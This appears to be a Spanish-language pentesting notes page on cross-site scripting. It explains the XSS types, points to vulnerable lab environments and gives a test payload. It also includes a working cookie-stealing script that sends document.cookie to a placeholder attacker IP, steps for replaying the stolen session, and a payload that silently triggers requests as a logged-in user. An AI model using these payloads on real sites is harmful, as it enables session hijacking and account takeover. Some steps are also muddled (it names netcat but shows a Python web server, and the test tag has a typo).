 ## Cross-Site Scripting (XSS)

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en un sitio web. 
un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página.  
Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:  
* Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

**Proyecto Github con docker vulnerable a XSS** <a href="https://github.com/globocom/secDevLabs">secDevLabs</a>  
**Maquina MyExpense** <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense machine (Vulnhub)</a>

#### Comprobar si es vulnerable
En un campo de texto, por ejemplo para enviar un post, comentario, etc. escribimos:  
```
<sccript>alert('Prueba XSS')</script>

En ocastiones no es necesario las etiquetas <script>, o incluso es necesario no ponerlas para que funcione
```

### Cookie stealing
Se puede poner netcat a la escucha:  
```
python3 -m http.server 80
```

E inyectar el siguiente código:  
```
<script>img = new Image(); img.src = "http://IP_ATACANTE/a.php?"+document.cookie;</script>
```

En la ventana del terminal donde tengamos netcat a la escucha, aparecerá la cookie de sesión cuando algún usuario entre a esa página a consultar los mensajes por ejemplo.  
Para utilizarla:  Ctrl+Shift+I (inspeccionar) -->Application -->Cookies y cambiamos la cookie de sesión por la capturada, luego recargamos y ya estamos dentro.

### Mandar a una dirección

En una máquina fue útil cuando quisimos que un usuario logueado fuese a una dirección sin que supiese, que lo que hacía era activar una cuenta de usuario.
```
igual que el anterior, pero el codigo:
<script>document.write('<img src="URL A DONDE QUIERAS DIRIGIR"/>');</script>
```
